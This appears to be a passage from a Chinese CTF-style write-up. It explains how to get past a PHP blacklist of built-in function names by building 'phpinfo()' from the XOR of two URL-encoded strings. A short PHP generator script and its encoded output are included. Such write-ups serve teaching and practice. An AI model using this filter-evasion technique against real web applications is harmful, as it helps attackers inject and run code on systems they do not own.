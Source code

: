 $blacklist的值是所有的内置函数

### 解题思路：

#### 方法一：

1.利用异或来绕过：在php中两个字符串进行异或操作以后，得到的还是一个字符串

可以利用如下php脚本来实现：

```
<?php
$payload = 'phpinfo()';
$length = strlen($payload);
$a = '';
$b = '';
$flag = 0;
echo '<br>';
for ($l = 0; $l < $length; $l++) {
    $flag=0;
    for ($i = 128; $i < 256; $i++) {
        for ($j = 128; $j < 256; $j++) {
            if ((chr($i) ^ chr($j)) === $payload[$l]) {
                echo urlencode(chr($i));
                $a=$a.urlencode(chr($i));
                echo '^';
                echo urlencode(chr($j));
                $b=$b.urlencode(chr($j));
                echo '=' . $payload[$l];
                echo "<br>";
                $flag=1;
                break;
            }
        }
        if($flag===1){
            break;
        }
    }
}

echo $a.'^'.$b; 
```

得到：

```
%80^%F0=p
%80^%E8=h
%80^%F0=p
%80^%E9=i
%80^%EE=n
%80^%E6=f
%80^%EF=o
%80^%A8=(
%80^%A9=)
%80%80%80%80%80%80%80%80%80^%F0%E8%F0%E9%EE%E6%EF%A8%A9 
```
